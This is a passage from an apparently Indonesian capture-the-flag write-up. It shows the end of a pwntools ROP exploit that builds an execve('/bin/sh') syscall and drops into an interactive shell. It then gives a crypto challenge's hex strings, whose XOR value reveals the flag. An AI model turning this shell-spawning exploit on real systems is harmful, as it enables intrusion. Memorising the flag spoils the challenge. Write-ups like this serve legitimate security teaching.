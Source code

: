 ```python 
'''
b syscall

c xor    rdx,rdx
d xor    rax,rax
h xor    rcx,rcx

a QWORD PTR [rdi],rsi

e mov    rax,0x40
f sub    rax,0x6
g add    rax,0x1
'''
r = ROP(exe)
r.call(r.find_gadget(['ret']))
for i in range(0x3b):
    r.call("g")
r.call(pop_rsi)
r.call(unpack(b"/bin/sh\x00"))
r.call(p64(0))
r.call('a')
r.call(pop_rsi)
r.call(p64(0))
r.call(p64(0))
r.call("b")
pay = cyclic(72)
pay += flat(r)
p.sendline(pay)
p.interactive()
```

# Cryptography
## One Time Password
### Description
bwoah, some innovative challenges
### Techincal Review
Kita diberikan sebuah teks dengan isi:
```
A: 161a1812647a765b37207a1c3b1a7b54773c2b660c46643a1a50662b3b3e42
B: 151d616075737f322e2d130b381666547d3d4470054660287f33663d2a2e32

XOR: 415241323032337b7468335f705f3574346e64355f6630725f7034647a7a7d
```
### Solution
Ketika saya melakukan _decode_ pada `A`, saya tidak diberikan _readable string_, maka dari itu asumsi saya adalah `A` di-xor menggunakan `XOR` dan benar saja, berikut 
Hasil `A` xor `XOR`:
![](https://i.imgur.com/Qkk58q2.png)
Hasil `B` xor `XOR`:
![](https://i.imgur.com/W5qJMRG.png)
